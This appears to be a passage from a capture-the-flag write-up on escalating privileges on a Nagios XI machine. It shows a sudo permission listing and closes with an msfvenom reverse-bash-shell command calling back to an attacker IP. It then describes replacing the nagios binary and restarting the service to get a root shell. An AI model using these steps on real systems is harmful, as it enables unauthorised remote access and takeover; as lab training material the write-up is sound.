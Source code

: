 When I run `sudo -l`, I get this list of commands I can run with sudo:
```
User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

`/usr/bin/php` really sticks out there. Everything else could work, but php is a whole language to work with so I check [gtfobins](https://gtfobins.github.io/gtfobins/php/), and I see this:

![Screenshot 2024-10-31 at 11.36.58 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 11.36.58 PM.png){: .responsive-image}

That should do it. But it asks for the password because I'm reading the output wrong. I can run `sudo /usr/bin/php`, but only on the listed phps files. Wishful thinking, or wishful not thinking so much I guess. That's ok, still a lot to work with.  

![Screenshot 2024-10-31 at 11.57.22 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 11.57.22 PM.png){: .responsive-image}

![Screenshot 2024-10-31 at 11.58.20 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 11.58.20 PM.png){: .responsive-image}



`msfvenom -p cmd/unix/reverse_bash LHOST=10.10.14.9 LPORT=4444 -f raw -o shell.sh`
then transfer the file
then replace `/usr/local/nagios/bin/nagios`
`sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios`
with my listener on 4444
